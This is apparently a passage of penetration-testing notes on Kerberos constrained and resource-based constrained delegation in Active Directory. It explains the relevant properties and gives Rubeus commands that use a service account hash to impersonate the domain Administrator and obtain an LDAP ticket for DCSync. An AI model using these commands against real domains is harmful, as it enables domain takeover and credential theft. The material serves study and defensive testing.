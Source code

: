 Constrained delegation can be set on the _frontend server_ (e.g. IIS) to allow it to delegate to _only selected backend services_ (e.g. MSSQL) on behalf of the user.

DACL UAC property: `TrustedToAuthForDelegation`. This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

DACL Property: `msDS-AllowedToDelegateTo`. This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (often the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

**NOTE:** These properties do NOT have to exist together! If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.

## Exploitation

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

# Get a TGT using the compromised service account with delegation set (not needed if you already have an active session or token as this user)  
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN  
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt# Same as the two above steps, but access the LDAP service on the DC instead (for dcsync)  
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

PowerShell

# Resource-based constrained delegation

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.

## Exploitation

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.
